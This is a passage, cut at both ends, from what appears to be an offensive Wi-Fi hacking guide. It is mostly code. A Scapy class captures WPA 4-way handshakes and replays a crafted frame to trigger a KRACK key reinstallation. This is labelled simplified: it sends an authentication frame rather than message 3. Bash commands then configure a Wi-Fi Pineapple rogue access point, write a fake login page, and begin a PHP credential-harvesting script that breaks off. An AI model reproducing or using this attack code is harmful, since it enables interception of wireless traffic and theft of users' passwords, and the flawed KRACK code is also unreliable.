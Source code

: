 ```python
        self.target_mac = target_mac
        self.ap_mac = ap_mac
        self.replay_counter = 0
    
    def capture_handshake(self):
        """Capture and analyze 4-way handshake"""
        print("Capturing 4-way handshake...")
        
        def packet_handler(packet):
            if packet.haslayer(EAPOL):
                print(f"EAPOL packet captured: {packet.summary()}")
                # Analyze key information
                if hasattr(packet[EAPOL], 'key_info'):
                    key_info = packet[EAPOL].key_info
                    print(f"Key Info: {hex(key_info)}")
        
        sniff(iface=self.interface, prn=packet_handler, timeout=60)
    
    def replay_message3(self):
        """Replay message 3 of 4-way handshake"""
        print("Replaying message 3 to trigger key reinstallation...")
        
        # Craft replay packet (simplified example)
        replay_packet = RadioTap() / Dot11(
            addr1=self.target_mac,
            addr2=self.ap_mac,
            addr3=self.ap_mac
        ) / Dot11Auth()
        
        # Send replay
        sendp(replay_packet, iface=self.interface)

# Usage requires careful implementation and authorization
# krack = KrackAttack("wlan0mon", "client_mac", "ap_mac")
```

#### Wi-Fi Pineapple Advanced Attacks
```bash
# PineAP configuration
echo "EnablePineAP=1" >> /etc/pineapple/pineap.conf
echo "TargetMAC=*" >> /etc/pineapple/pineap.conf
echo "BroadcastSSIDList=1" >> /etc/pineapple/pineap.conf

# Captive portal setup
# Create fake login page
cat > /www/index.html << EOF
<html>
<body>
<h2>WiFi Authentication Required</h2>
<form method="post" action="login.php">
Username: <input type="text" name="username"><br>
Password: <input type="password" name="password"><br>
<input type="submit" value="Connect">
</form>
</body>
</html>
EOF

# Credential harvesting script
cat > /www/login.php << EOF
<?php
\$username = \$_POST['username'];
\$password = \$_POST['password'];
```
